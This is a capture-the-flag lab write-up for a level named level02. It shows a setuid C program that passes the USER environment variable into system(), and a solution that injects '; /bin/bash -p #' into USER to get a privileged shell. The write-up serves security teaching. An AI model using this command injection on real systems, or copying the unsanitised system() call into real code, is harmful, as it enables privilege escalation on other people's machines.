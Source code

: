 # username / password
level02 / level02
# objective
* There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
* To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.
Here is the source code for the binary:
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
# concept
* environment hijacking
* the source code uses the `USER` environment variable in its command output
* we can inject system commands into the `USER` variable to execute commands
# method of solve
* inject a command to open a shell in the `USER` variable
```
export USER='; /bin/bash -p #'
```
* then when we run the binary, it will use the payload we put in the `USER` variable and give us a privileged shell
```
/home/flag02/flag02
getflag
```
